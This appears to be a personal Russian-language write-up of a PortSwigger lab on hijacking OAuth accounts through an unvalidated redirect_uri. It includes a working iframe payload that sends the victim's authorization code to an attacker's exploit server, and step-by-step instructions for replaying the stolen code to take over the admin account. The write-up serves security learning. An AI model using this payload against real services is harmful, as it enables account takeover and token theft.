




### Утека кодов авторизации и токенов доступа

Перехват учетной записи OAuth через redirect_uri

кража токена доступа с помощью которого можно полностью получить контроль над учетной записью!

то есть нужно как-то жертву перенаправить по нашей ссылке в которой будет указан неверный ==redirect_uri  / (/callback) ==, и если приложение/сайт не проверяют redirect_uri  (/callback) на которые могут уходить данные - тогда полностью все данные могут уйти к злоумышленнику.

-----
лаба https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri
# Захват учетной записи OAuth через redirect_uri
-------
моя учетка `wiener:peter`.
админ всегда в сети
есть способ 100% воспроизвести эксплойт у админа
нужно получить доступ у четке админа украв его токен авторизации

---


```html
<iframe src="https://oauth-0a1c007f036e578081cb23dd02c20007.oauth-server.net/auth?client_id=y9kiwsinntwb3b4ptrq0w&redirect_uri=https://exploit-0aeb0018038c576e810724c801640089.exploit-server.net/exploit/?t=1&response_type=code&scope=openid%20profile%20email"></iframe>
```

-------
## шаг первый!
вот этот запрос возвращает нам код авторизации который заменяет логин и пароль, связывает соц сеть с акк на сайте
code=Ctt-pQxxgJiNJ-nUZV5_L0WH92agTJi3SuoIEDwSvrU.



## шаг второй
данный код потом если отправить этим запросом - то происходит привязка аккаунта соц сети с ак сайтом!



## шаг третий
переделываю запрос который генерирует связывающий код токен
+
ПОДМЕНИЛ редирект на СОБСТВЕННЫЙ хост 
redirect_uri=https://exploit-0aeb0018038c576e810724c801640089.exploit-server.net/?t=1
t=1 - чтобы уникальный код получить
+
куки свои убрал чтобы браузер новые сделал из браузера жертвы




## шаг четвертый
формирую ссылку за запроса выше
https://oauth-0a1c007f036e578081cb23dd02c20007.oauth-server.net/auth?client_id=y9kiwsinntwb3b4ptrq0w&redirect_uri=https://exploit-0aeb0018038c576e810724c801640089.exploit-server.net/?t=1&response_type=code&scope=openid%20profile%20email


## шаг пятый
нужно ДОСТАВИТЬ эксплойт с сылкой жертве
```html
<iframe src="https://oauth-0a1c007f036e578081cb23dd02c20007.oauth-server.net/auth?client_id=y9kiwsinntwb3b4ptrq0w&redirect_uri=https://exploit-0aeb0018038c576e810724c801640089.exploit-server.net/exploit/?t=1&response_type=code&scope=openid%20profile%20email"></iframe>
```

где:
- **`<iframe>`**: Тег HTML, который создаёт встроенный фрейм на странице. Он загружает и отображает другую веб-страницу внутри текущей. В атаке он используется для **скрытой загрузки** целевого URL в браузере жертвы.

**`src="..."`**: Атрибут, указывающий **источник (URL)**

ну и там в редиректе тупо ссылка на мой сервер! 

этот фрейм, внутри него атрибут  src="..." который подгружает ссылку, ссылка выполнится вместе с загрузкой страницы (нажимать не нужно)

</iframe> - закрыл фрейм!
## шаг шестой!
жертва открыла ссылку или письмо с ссылкой
и мой эксплойт выполнился!
и если в том браузере была активная сессия на сайте нужном  мне

то мой эксплойт выполнил привязывание его сессии к моей соц сети!

и через редирект данные ушли на мой сервер, а не на сервер сайта!

в логах моего сервера я вижу нужный токен-код!!!!
## шаг  седьмой
подставил код и сформировал ссылку на вход!!
https://0a06004d034657a381812588000f00c0.web-security-academy.net/oauth-callback?code=fWVkwL3ZNtKnRLcMqUR1Nn4aulGc_wjtPkwt4mI-5rM


перешел по ссылке с этим кодом в своем браузере и вуаля, его код его активной сессии в браузере связался с моей соц сетью!
я получил доступ к его аккаунту!!

# ВЫВОД
система OAuth 2.0 позволила мне подставить свой хост в редирект!
сервер должен был проверить на какой адрес отправиляет данные!
и заблокировать отправку на любой сторонний хост!

как найти уязв?

подставить свой хост и проверить прийдет ли ответ.

